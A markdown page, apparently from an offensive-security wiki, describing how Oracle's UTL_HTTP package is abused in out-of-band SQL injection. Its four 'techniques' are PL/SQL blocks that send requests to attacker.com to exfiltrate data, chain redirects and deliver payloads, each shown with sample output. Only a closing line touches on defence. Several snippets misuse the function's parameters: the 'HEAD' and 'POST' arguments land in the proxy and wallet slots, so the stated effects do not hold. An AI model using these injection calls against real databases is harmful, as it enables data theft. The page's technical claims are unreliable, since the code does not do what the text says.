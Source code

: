 ```yaml
---
title: 'UTL_HTTP: Exploit Oracle SQL for Covert HTTP Requests'
description: Explore techniques leveraging UTL_HTTP for Oracle SQL injection and data
  exfiltration.
keywords:
- UTL_HTTP
- SQL injection
- data exfiltration
- Oracle SQL
- HTTP requests
- cybersecurity
- network communication
---
```


# UTL_HTTP

## Context

Within the realm of Oracle SQL, the `UTL_HTTP` package provides an interface for making HTTP requests directly from SQL statements. This becomes particularly useful in scenarios of blind out-of-band SQL injection attacks, where an attacker aims to bypass traditional defenses and exfiltrate data or execute payloads through seemingly harmless SQL functions. `UTL_HTTP` can be abused to initiate HTTP requests that communicate with an external server controlled by the attacker, facilitating covert data transfer and exploitation.

## Theory

### Core Idea

The `UTL_HTTP` package allows SQL procedures to make HTTP requests, offering a pathway for data exfiltration during SQL injection attacks. By leveraging this package, attackers can inject SQL payloads that execute HTTP requests to an external entity, transferring sensitive data or triggering actions based on the server's response. This package, when manipulated correctly, can create a persistent covert channel for data exchange without triggering immediate alarm.

### Overview Diagram

```mermaid
graph TD;
    A[UTL_HTTP Injection] --> B1[Data Exfiltration];
    A --> B2[Network Communication];
    A --> B3[Payload Execution];
```

## Practice

### Technique 1: Basic HTTP Request Injection

Leverage the `UTL_HTTP` package to perform a basic HTTP request, serving as a foundation for more complex interactions.

#### Steps:

1. **Formulate SQL**: Utilize the `UTL_HTTP` package for a basic HTTP request, opening a connection to an attacker's server.

    ```plsql
    BEGIN
        UTL_HTTP.REQUEST('http://attacker.com:8080');
    END;
    ```

2. **Execution Result**: This SQL command initiates a connection to the provided URL, with the expected success message indicating execution.

    ```
    PL/SQL procedure successfully completed.
    ```

### Technique 2: Data Exfiltration via Header Manipulation

Inject data into HTTP headers in SQL procedures to exfiltrate sensitive information stealthily.

#### Steps:

1. **Inject Data**: Manipulate HTTP headers to transfer data to an external server during the SQL execution.
   
    ```plsql
    BEGIN
        UTL_HTTP.REQUEST('http://attacker.com:8080', 'HEAD', 'some data');
    END;
    ```

2. **Execution Result**: Successful execution indicates data is being sent in HTTP headers to the specified URL.

    ```
    PL/SQL procedure successfully completed.
    ```

### Technique 3: Leveraging Redirects for Stealthier Exfiltration

Utilize HTTP redirects to obscure the intentions of the network request, making it harder to detect unauthorized data movement.

#### Steps:

1. **Use Redirects**: Craft a request that exploits HTTP redirection, causing data flow between different endpoints.
   
    ```plsql
    BEGIN
        UTL_HTTP.REQUEST('http://attacker.com/a');
    END;
    ```

2. **Expected Payload**: The attacker's server responds with a redirect notice, contributing to the request's stealthiness.

    ```
    HTTP/1.1 307 Temporary Redirect
    Location: http://attacker.com/b
    ```

3. **Execution Result**: This feedback loop facilitates the covert transfer or activation of secondary payloads.

    ```
    PL/SQL procedure successfully completed.
    ```

### Technique 4: Payload Delivery with HTTP POST Method

Execute complex payloads by embedding them within HTTP POST requests, capitalizing on legitimate web functionalities.

#### Steps:

1. **Construct Payload**: Delve deeper into the `UTL_HTTP` capabilities by embedding a payload in a POST request to an attacker's endpoint.
   
    ```plsql
    BEGIN
        UTL_HTTP.REQUEST('http://attacker.com', 'POST', 'payload');
    END;
    ```

2. **Execution Result**: Ensure payload delivery is acknowledged, with the server's response indicating success.

    ```
    PL/SQL procedure successfully completed.
    ```

## Practical Tools

- **SQL*Plus**: Utilize this utility to execute your crafted SQL commands.
- **Wireshark**: Monitor outbound traffic to verify successful data exfiltration or payload delivery.
- **Burp Suite**: Analyze request headers and detect security weaknesses facilitating such injections.

Using these techniques effectively emphasizes the need for vigilant monitoring and strict input validation to prevent misuse of the `UTL_HTTP` package, underscoring its dual role in legitimate operations and as a vector for potential exploitation in SQL injection attacks.
